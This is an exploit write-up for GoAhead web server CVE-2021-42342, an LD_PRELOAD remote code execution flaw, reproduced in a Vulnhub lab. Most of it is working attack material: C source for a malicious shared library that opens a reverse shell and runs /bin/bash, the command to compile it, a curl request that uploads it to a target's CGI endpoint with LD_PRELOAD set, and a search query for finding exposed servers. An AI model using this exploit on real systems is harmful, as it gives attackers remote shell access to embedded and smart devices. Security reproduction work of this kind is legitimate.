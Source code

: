 # Goahead LD_PRELOAD Remote Command Execution Vulnerability CVE-2021-42342

## Vulnerability Description

GoAhead is an open source (commercial license), simple, lightweight, powerful, and can run on multiple platforms. It is mostly used in embedded systems and smart devices. 

This vulnerability is bypassed by the CVE-2017-17562 vulnerability patch. Attackers can use the multipart form not considered by the patch to control the target server's environment variables, and then hijack LD_PRELOAD to execute arbitrary code.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">5.x <= GoAhead web-server < 5.1.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="GoAhead"</span>

## Vulnerability reappears

Use the shooting range under Vulnhub to build

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500.png)

Compile malicious so file

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

Send evil.so malicious file

```php
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" http://xxx.xxx.xxx.xxx:8080/cgi-bin/hello
```

After sending a request, grab the packet and set the `Content-Length` to be smaller than the final packet Body size, and blast the `/proc/self/fd/1 rebound shell`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657075996296-e5f8e37e-33db-424b-a040-5e890fad829a.png)